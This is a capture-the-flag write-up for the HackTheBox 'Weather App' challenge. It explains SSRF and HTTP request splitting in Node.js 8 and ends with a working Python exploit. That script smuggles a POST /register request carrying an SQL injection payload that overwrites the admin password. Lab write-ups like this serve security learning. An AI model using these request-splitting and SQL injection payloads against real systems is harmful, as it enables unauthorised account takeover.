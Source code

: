 # [Weather App](https://app.hackthebox.com/challenges/Weather%20App)

## Vulnerabilities

request splitting vulnerability in nodejs 8

## CHALLENGE DESCRIPTION

A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️

## Analysis

read source code:

- Nodejs, express framework: [good express framework tutorial](https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction)
- Sqlitedb

Summary:

- if we can log in with admin account, we can get the flag. The admin account is initialized with a random password.
- register function has sqli vulnerability but requires client address is 127.0.0.1 otherwise 401
- `/api/weather` has ssrf vulnerability

**Detected SQLi:**
While reading the source code I found a strange line, the register query is not using prepare function like below SQL function:

![detect-sqli.png](./img/challenge-3-detect-sqli.png)

![localhost-required.png](./img/challenge-3-localhost-required.png)
However, the client's ip address needs to be 127.0.0.1 to be allowed to use the registration function, tried fake with `X-Forwarded-For` and `X-Custom-IP-Authorization`, both failed.

**Detected ssrf in `/api/weather`:**
![detect-ssrf-1.png](./img/challenge-3-detect-ssrf-1.png)
![detect-ssrf-2.png](./img/challenge-3-detect-ssrf-2.png)
![detect-ssrf-3.png](./img/challenge-3-detect-ssrf-3.png)

The idea is to use the ssrf vulnerability at the `/api/weather` endpoint to the `register` endpoint to bypass 127.0.0.1. But the `/api/weather` endpoint only makes get requests, so it doesn't work.

## Request splitting

At the nodejs version 8, there is a vulnerability called request-splitting.

This vulnerability allows the hacker to append another HTTP request after the base one.

Example:

```url
http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private')
```

in nodejs, it see this:

```url
http.get('http://127.0.0.1:8000/?param=xĠHTTP/1.1čĊHost:{Ġ}127.0.0.1:8000čĊčĊGETĠ/private')
```

but before this request is put in the wire, everything is encoded with latin1. the problem here is that `\u{010D}` is become to `\u{0D}`, which is the `\r` character, a special charracter in HTTP.

```js
> Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'
```

|||
|--|--|
|%20|space|
|%0D|\r|
|%0A|\n|

## Solutions

python code to send `request splitting` request:

```python
import requests

s = '\u0120' #space
r = '\u010D' #\r
n = '\u010A' #\n
rn = r + n

host = 'http://165.22.115.189:31711'

i_username = 'admin'
i_password = "test') ON CONFLICT(username) DO UPDATE SET password = 'test';--"
i_password = i_password.replace(' ', '%20').replace('\'', '%27') #(1)
len_body = 19 + len(i_username) + len(i_password)

fake_endpoint = "127.0.0.1/" + s + 'HTTP/1.1' + rn #(2)
fake_endpoint += rn
fake_endpoint += 'POST' + s + '/register' + s + 'HTTP/1.1' + rn
fake_endpoint += 'Host:' + s + '127.0.0.1' + rn
fake_endpoint += 'Content-Type:' + s + 'application/x-www-form-urlencoded' + rn
fake_endpoint += 'Content-Length:' + s + str(len_body) + rn
fake_endpoint += rn
fake_endpoint += 'username=' + i_username + '&password=' + i_password + rn
fake_endpoint += rn
fake_endpoint += 'GET' + s

resp = requests.post(host + '/api/weather', json={"endpoint":fake_endpoint,"city":"Hanoi","country":"VN"})
```

note:

- (1): must replace space to `%20` or `\u0120`, replace `'` to `%27` or `\u0127`
- (2): must have `/` after 127.0.0.1

## References

<https://twitter.com/YShahinzadeh/status/1039396394195451904/photo/1>
<https://hackerone.com/reports/409943>
<https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/>

writeup: <https://infosec.itsmeuday.com/blog/htb_weather_app>

learn:

- <https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction>
